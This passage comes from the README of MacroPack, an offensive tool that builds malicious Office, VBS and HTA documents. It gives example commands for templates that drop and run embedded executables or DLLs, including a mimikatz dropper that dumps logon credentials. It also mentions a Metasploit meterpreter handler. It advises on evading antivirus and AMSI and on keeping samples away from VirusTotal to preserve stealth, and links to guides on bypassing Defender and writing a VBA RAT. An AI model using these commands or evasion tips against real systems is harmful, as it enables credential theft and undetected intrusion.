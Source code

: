 This template also generates a  meterpreter.rc file to create the Metasploit handler  
  -> Example: ```msfconsole -r meterpreter.rc``` 


### EMBED_EXE          
Drop and execute an embedded file.   
Combine with --embed option, it will drop and execute the embedded file with random name under TEMP folder.  
 -> Example: ```macro_pack.exe  -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs```  
 
 
### EMBED_DLL
Combine with --embed option, it will drop and call a function in the given DLL.   
Give this template the name and parameters of function to call in DLL  
-> Example1 : ```echo "main" | macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc```  
-> Example2 : ```echo "main log privilege::debug sekurlsa::logonpasswords exit" | macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta```



## Efficiency

The various features were tested against locally installed Antimalware solutions as well as online services. 
I ran multiple tests with several kinds of payloads and MacroPack features. 
A majority of antivirus static will be evaded by the simple "obfuscate" option. 
However, as most free tools, payloads are generally caught by behavioural analysis such as AMSI. 
Features available in MacroPack pro mode generally permit full AV bypass including AMSI.

**Warning:** Do not submit your samples to online scanners (ex VirusTotal), It's the best way to break your stealth macro.
 I also suggest you do not submit to non-reporting sites such as NoDistribute. 
 You cannot be sure what these sites will do with the data you submit. If you have an issue with macro_pack AV detection, you can write to us for advice or submit an issue or pull request.


## Relevant resources

Blog posts about MacroPack Pro:
 - https://blog.sevagas.com/?Launch-shellcodes-and-bypass-Antivirus-using-MacroPack-Pro-VBA-payloads
 - https://blog.sevagas.com/?EXCEL-4-0-XLM-macro-in-MacroPack-Pro (Excel 4.0 payloads in MacroPack Pro)
 - https://blog.sevagas.com/?Advanced-MacroPack-payloads-XLM-Injection (XLM injection in MacroPack Pro)

Blog posts about hacking with MS Office, VBS, and other retro stuff security:
 - https://blog.sevagas.com/?Bypass-Windows-Defender-Attack-Surface-Reduction
 - https://subt0x11.blogspot.fr/2018/04/wmicexe-whitelisting-bypass-hacking.html
 - http://blog.sevagas.com/?My-VBA-Bot (write a full VBA RAT, includes how to bypass VBOM protection)
 - http://blog.sevagas.com/?Hacking-around-HTA-files  (run hta code in non-hta files and hta polyglots)
 - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ (About Dynamic Data Exchange attacks)
 - https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
 